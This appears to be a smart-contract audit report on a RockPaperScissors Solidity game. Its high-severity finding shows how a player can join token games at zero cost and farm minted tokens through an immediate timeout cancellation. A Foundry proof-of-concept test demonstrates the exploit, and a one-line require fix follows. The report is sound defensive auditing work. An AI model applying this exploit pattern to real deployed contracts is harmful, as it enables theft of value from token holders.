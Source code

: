 1. possible reentrancy attacks with internal functions \_handleTie/\_finishGame/\_cancelGame. however likely not exploitable as both functions updated game.state to finished, and the external functions that call these functions have require checks to make sure game is in Committed stage
2. Can i join token games through joinGameWithEth with 0 tokens and 0 eth? yes i can, and this allows me to keep participating for free, as the winners are minted 2 WT, instead of being transferred from loser to winner ## highest severity bug i think
3. Possible DoS if i keep joining games and just immediately call timeoutReveal, effectively cancelling all the games

to focus:

- Commit-reveal mechanism ensures fair play (no cheating)
- Support for both ETH and token-based games
- Multiple-turn matches with best-of-N scoring
- Automatic prize distribution and winner token rewards
- Timeout protection against non-responsive players

- **Players**: Users who create or join games, commit and reveal moves, and participate in matches
- **Admin**: The protocol administrator who can update timeout parameters and withdraw accumulated fees
- **Contract Owner**: Initially the deployer of the contract, capable of setting a new admin

### [H-1]`RockPaperScissors::joinGameWithEth` Allows Users to Join Token Games Without Paying

**Description:** The `RockPaperScissors::joinGameWithEth` function fails to validate that msg.value > 0. As a result, an attacker can call this function with msg.value == 0 and still successfully join a Token-based Game, provided the original creator also set the bet to 0. The check require(msg.value == game.bet) passes because both values are 0.

**Impact:** An attacker can exploit this by joining a token game without staking any tokens. After joining, the attacker commits a move and immediately calls `timeoutReveal`, which triggers `_cancelGame` — a function that mints 1 WinningToken to both participants. Since the attacker joined without any cost, they effectively farm free tokens. Repeating this at scale enables rapid minting of arbitrary amounts of tokens, undermining the integrity and scarcity of the token economy.

**Proof of Concept:** To test this, I have added the following test function into the current test suite. The following proof of concept demonstrates the exact exploit highlighted above.

```javascript
    address public playerC = makeAddr("playerC");
    address public playerD = makeAddr("playerD");
    uint256 testGameId;

    function testJoinGameWithTokenUsingEth() public {
        // Set up 2 new players, we will be using playerD's account as the attacker
        vm.prank(address(game));
        token.mint(playerC, 10);

        vm.prank(address(game));
        token.mint(playerD, 10);
        vm.stopPrank();

        // Player C first creates a token game
        vm.startPrank(playerC);
        token.approve(address(game), 1);
        testGameId = game.createGameWithToken(TOTAL_TURNS, TIMEOUT);
        vm.stopPrank();

        // Attacker joins the same game using joinGameWithEth (with 0 msg.value)
        vm.startPrank(playerD);
        game.joinGameWithEth(testGameId);
        vm.stopPrank();

        assertEq(token.balanceOf(playerC), 9);
        // verify that player D did not transfer tokens
        assertEq(token.balanceOf(playerD), 10);

        // Verify game state, ensure that player D is in the game
        (address storedPlayerC, address storedPlayerD,,,,,,,,,,,,,, RockPaperScissors.GameState state) =
            game.games(testGameId);

        assertEq(storedPlayerC, playerC);
        assertEq(storedPlayerD, playerD);
        assertEq(uint256(state), uint256(RockPaperScissors.GameState.Created));

        // Commit a move for player D
        bytes32 saltD = keccak256(abi.encodePacked("salt for player D"));
        bytes32 commitD = keccak256(abi.encodePacked(uint8(RockPaperScissors.Move.Rock), saltD));

        vm.startPrank(playerD);
        game.commitMove(testGameId, commitD);
        // Call timeoutReveal immediately after commiting to get a the game cancelled
        game.timeoutReveal(testGameId);
        vm.stopPrank();

        // Verify balances, showing that playerD was able to gain tokens
        assertEq(token.balanceOf(playerC), 10);
        assertEq(token.balanceOf(playerD), 11);
    }
```

**Recommended Mitigation:** An additional check that msg.value > 0 should be included within the function. This would ensure that the function cannot be used to join token games.

```javascript
    function joinGameWithEth(uint256 _gameId) external payable {
        Game storage game = games[_gameId];

        require(game.state == GameState.Created, "Game not open to join");
        require(game.playerA != msg.sender, "Cannot join your own game");
        require(block.timestamp <= game.joinDeadline, "Join deadline passed");
        require(msg.value == game.bet, "Bet amount must match creator's bet");
        require(msg.value > 0, "Eth must be sent to join an Eth game");

        game.playerB = msg.sender;
        emit PlayerJoined(_gameId, msg.sender);
    }
```
